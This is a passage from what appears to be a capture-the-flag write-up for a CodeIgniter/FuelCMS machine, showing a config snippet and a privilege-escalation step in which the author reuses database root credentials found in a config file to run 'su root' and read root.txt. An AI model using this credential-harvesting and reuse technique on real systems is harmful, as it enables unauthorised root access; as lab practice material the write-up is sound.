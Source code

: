 ```
// used for testing purposes
if (defined('TESTING'))
{
	@include(TESTER_PATH.'config/tester_database'.EXT);
}
```

In the last parts of the file we can see the database is setup with root credentials

I guess the credentials work for the system so I use them to go root

```
www-data@ubuntu:/var/www/html/fuel/application/config$ su root
su root
Password: mememe

root@ubuntu:/var/www/html/fuel/application/config# 

root@ubuntu:~# cat root.txt
cat root.txt
```

And the fire is lit!

I wonder how popular CodeIgniter still is

